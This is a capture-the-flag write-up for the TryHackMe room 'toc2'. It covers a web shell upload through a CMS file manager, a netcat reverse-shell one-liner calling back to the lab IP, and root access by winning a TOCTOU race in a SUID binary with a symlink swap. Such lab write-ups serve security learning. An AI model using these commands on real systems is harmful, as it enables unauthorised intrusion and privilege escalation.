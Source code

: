 # toc2

https://tryhackme.com/room/toc2

"It's a setup... Can you get the flags in time?"

Interesting room! Sort of an education in a specific vulnerability.

1. Recon showed 80 and 22. On 80 was a holding page that gave some credentials, without specifying what those credentials were for.
2. `robots.txt` revealed a sub dir containing a cms setup file, and also in a comment gave the name of a local database.
3. Running the setup file, I created a new cms installation using the credentials from the home page and the database name when prompted for database details.
4. Logging in, under a File Manager, I could upload arbitary files. Uploading php web shells directly didn't seem to work (they were rendered as text/html), but I found uploading one as a text file then renaming it to php, before navigating to it's path directly worked. The direct navigation might have worked without renaming - by default, the file manager used some sort of module manager to load the files which might have broken the web shell. The webshell I used was this one: https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985.
5. With the web shell in place, I set up a reverse shell and got access as www-data (standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.205.196 4444 >/tmp/f` worked)
6. The only home folder was for a user named 'frank', where the user flag was readable. Also within was a note that gave the users password; this allowed me to drop my shell and ssh in normally.
7. Under the user's folder was a 'root_access' folder containing a suid binary called `readcreds` and its C code (`readcreds.c`), along with a root-only file called `root_password_backup`. The suid binary would, however, only read files the user had access to, suid be damned - running it against the root_password_backup failed.
8. The room talks about a linux file access race condition, where in the code if it uses the path to check access and then the path again to read, if you rename the file the path is pointing to between these checks you can bypass such access control. The video linked to is this one by the excellent LiveOverflow: https://www.youtube.com/watch?v=5g137gsB9Wk. In the video he uses a linux syscall to rapidly rename the files, but the C code here actually waits deliberately for a full second, so this was not necessary:

    ```
    ...
    if (!access(argv[1],R_OK)) {
                sleep(1);
                file_data = open(argv[1], O_RDONLY);
        } else {
                fprintf(stderr, "Cannot open %s \n", argv[1]);
                exit(1);
        }
    ...
    ```

9. To get root I created a dummy file and created a symlink to it, e.g. `ln -s dummyfile myfile`, then in a separate window I readied (but didn't run yet!) `rm myfile && ln -s root_password_backup myfile`. Then in the first window, I started `readcreds myfile` and quickly switched over and ran the rename command. First try: got the root creds :)

Flag was in the root folder as normal, after switching to the root user with their creds. Interesting room.
